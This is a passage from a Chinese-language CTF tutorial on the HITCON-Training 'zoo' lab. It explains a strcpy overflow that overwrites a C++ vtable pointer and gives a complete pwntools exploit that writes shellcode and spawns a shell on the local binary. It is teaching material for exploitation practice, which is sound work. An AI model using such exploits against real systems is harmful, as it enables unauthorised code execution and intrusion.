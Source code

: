 其中更具体的细节不再讨论。

在题目中，通过异常处理可以帮助绕过一些检查，为利用做铺垫。


## Practise：zoo

[challenge link](https://github.com/scwuaptx/HITCON-Training/tree/master/LAB/lab15)

题目是一个简单的菜单题。在name赋值时使用的`strcpy`没有检查大小造成溢出，可以覆盖虚表指针。

```python
from pwn import *
leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))

binary = './zoo'
libc = '/lib/x86_64-linux-gnu/libc.so.6'
context.terminal = ['tmux', 'splitw', '-h']
context(binary = binary, log_level='debug')
p = process(binary)
# p = remote('chall.pwnable.tw',10202)
elf = ELF(binary)
libc = ELF(libc)

def cmd(i):
    p.sendlineafter('choice :',str(i)) 
def adddog(n,w):
    cmd(1)
    p.sendlineafter('Name : ',n)
    p.sendlineafter('Weight : ',w)
def addcat(n,w):
    cmd(2)
    p.sendlineafter('Name : ',n)
    p.sendlineafter('Weight : ',w)
def listen(n):
    cmd(3)
    p.sendlineafter('animal :',str(n))
def info(n):
    cmd(4)
    p.sendlineafter('animal :',str(n))
def dele(n):
    cmd(5)
    p.recvuntil('index of animal : ')
    p.sendline(str(n))

sc = asm(shellcraft.sh()) # 0x605420
p.sendline('a'*8+p64(0x605420+0x10)+sc)

adddog('1'*0x8,'1')
adddog('a'*0x8,'2')
dele(0)
# gdb.attach(p)
adddog('n'*0x48+p64(0x605420+0x8),'2')
listen(0)

p.interactive()

```
